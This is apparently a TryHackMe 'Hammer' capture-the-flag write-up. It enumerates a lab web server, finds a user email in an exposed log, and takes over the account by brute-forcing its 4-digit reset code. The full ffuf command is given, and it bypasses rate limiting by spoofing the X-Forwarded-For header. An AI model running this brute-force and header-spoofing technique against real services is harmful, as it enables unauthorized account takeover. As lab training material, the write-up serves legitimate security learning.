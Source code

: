 ![image](https://github.com/user-attachments/assets/05fe257f-b4ab-4dde-986d-edb60916c432)

# THM-Hammer
Hammer is a medium rate challenge. I'll start with directory enumeration on a web server, where a legitimate username can be found. After that, I will bypass 2fa mechanisism that is required to reset the user's password. 

<h2>${\color{Blue}Recon}$</h2>
Nmap finds open ports: 

```
root@ip-10-10-248-70:~# nmap 10.10.81.149 -p- -sC -sV --min-rate 10000
Starting Nmap 7.80 ( https://nmap.org ) at 2025-05-02 17:44 BST
Nmap scan report for 10.10.81.149
Host is up (0.0021s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login
MAC Address: 02:C0:73:06:11:D5 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

A web server is running on port 1337. I tried some common credentials on the login page (admin@hammer.thm:admin, admin@hammer.thm:password) but none works. 
![image](https://github.com/user-attachments/assets/4e7900c4-8fbb-40c0-8927-46b2ddab6e2e)

Viewing the page source reviews the directory naming convetion "hmr_DIRECTORY_NAME"
![image](https://github.com/user-attachments/assets/a69c8cbe-d18f-4fe4-a506-5c5d72446dcf)

I'll use ffuf to find hidden directories. 

```
root@ip-10-10-248-70:~# ffuf -w /usr/share/wordlists/dirb/big.txt:FUZZ -u http://10.10.81.149:1337/hmr_FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.81.149:1337/hmr_FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

css                     [Status: 301, Size: 321, Words: 20, Lines: 10]
images                  [Status: 301, Size: 324, Words: 20, Lines: 10]
js                      [Status: 301, Size: 320, Words: 20, Lines: 10]
logs                    [Status: 301, Size: 322, Words: 20, Lines: 10]
:: Progress: [20469/20469] :: Job [1/1] :: 9083 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```

hmr_logs contains an error logfile from the webserver. A legitimate email "tester@hammer.thm" is recorded in the log. 

```
[Mon Aug 19 12:00:01.123456 2024] [core:error] [pid 12345:tid 139999999999999] [client 192.168.1.10:56832] AH00124: Request exceeded the limit of 10 internal redirects due to probable configuration error. Use 'LimitInternalRecursion' to increase the limit if necessary. Use 'LogLevel debug' to get a backtrace.
[Mon Aug 19 12:01:22.987654 2024] [authz_core:error] [pid 12346:tid 139999999999998] [client 192.168.1.15:45918] AH01630: client denied by server configuration: /var/www/html/
[Mon Aug 19 12:02:34.876543 2024] [authz_core:error] [pid 12347:tid 139999999999997] [client 192.168.1.12:37210] AH01631: user **tester@hammer.thm**: authentication failure for "/restricted-area": Password Mismatch
[Mon Aug 19 12:03:45.765432 2024] [authz_core:error] [pid 12348:tid 139999999999996] [client 192.168.1.20:37254] AH01627: client denied by server configuration: /etc/shadow
[Mon Aug 19 12:04:56.654321 2024] [core:error] [pid 12349:tid 139999999999995] [client 192.168.1.22:38100] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/protected
[Mon Aug 19 12:05:07.543210 2024] [authz_core:error] [pid 12350:tid 139999999999994] [client 192.168.1.25:46234] AH01627: client denied by server configuration: /home/hammerthm/test.php
[Mon Aug 19 12:06:18.432109 2024] [authz_core:error] [pid 12351:tid 139999999999993] [client 192.168.1.30:40232] AH01617: user tester@hammer.thm: authentication failure for "/admin-login": Invalid email address
[Mon Aug 19 12:07:29.321098 2024] [core:error] [pid 12352:tid 139999999999992] [client 192.168.1.35:42310] AH00124: Request exceeded the limit of 10 internal redirects due to probable configuration error. Use 'LimitInternalRecursion' to increase the limit if necessary. Use 'LogLevel debug' to get a backtrace.
[Mon Aug 19 12:09:51.109876 2024] [core:error] [pid 12354:tid 139999999999990] [client 192.168.1.50:45998] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/locked-down
```

From here, we can attempt to reset the password for this user. However, we must pass the 2FA check first. 
![image](https://github.com/user-attachments/assets/32c17d37-81aa-445f-9cb0-b49c2c7baf41)

![image](https://github.com/user-attachments/assets/fca02f5a-bbb0-4795-b090-a1898e789b1c)

After sending the request to Burp's Intruder, I mark the 'recovery_code' param, choose the 'number' payload type, and change the minimum digits to '4' (because recovery codes have 4 digits).
![image](https://github.com/user-attachments/assets/0122b34e-0941-4309-8b81-c60132e6a21c)

After about 5 failed attempts, the webserver responsed that we have exceeded the rate-limit. To bypass this, we can manipulate the [X-Forwarded-For header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/X-Forwarded-For), which is for identifying the originating IP address of a client connecting to a web server. 
![image](https://github.com/user-attachments/assets/e4b73681-d900-4451-8ce6-ffe8d0e82671)

To generate the wordlist, I'll use the seq command with padding options.

```
seq -w 9999 > code.txt
```

ffuf is used again to brute-force the 2FA token. Here I filtered for empty responses and responses contains "Invalid" keyword, as shown when an invalid token is submitted.

![image](https://github.com/user-attachments/assets/91a4b2e6-9614-4577-99fe-842070abbc4d)


```
root@ip-10-10-248-70:~# ffuf -w code.txt -u http://10.10.81.149:1337/reset_password.php -X POST -d 'recovery_code=FUZZ&s=120' -H 'Content-Type: application/x-www-form-urlencoded' -H "X-Forwarded-For:FUZZ" -H "Cookie:PHPSESSID=so7dmfev7f9c73um8h5f1b1hen" -fr "Invalid" -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.81.149:1337/reset_password.php
 :: Wordlist         : FUZZ: code.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : X-Forwarded-For: FUZZ
 :: Header           : Cookie: PHPSESSID=so7dmfev7f9c73um8h5f1b1hen
 :: Data             : recovery_code=FUZZ&s=120
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 0
 :: Filter           : Regexp: Invalid
________________________________________________

8610                    [Status: 200, Size: 2191, Words: 595, Lines: 53]
```

<i> Note: The cookie is different from the one captured with Burp because when the rate limit expired, I was given a new session.</i>

Once the correct token is submitted, I resetted the password and successfully logged in.

![image](https://github.com/user-attachments/assets/d9267f3d-1cf0-4056-a99b-5fbde3944a47)














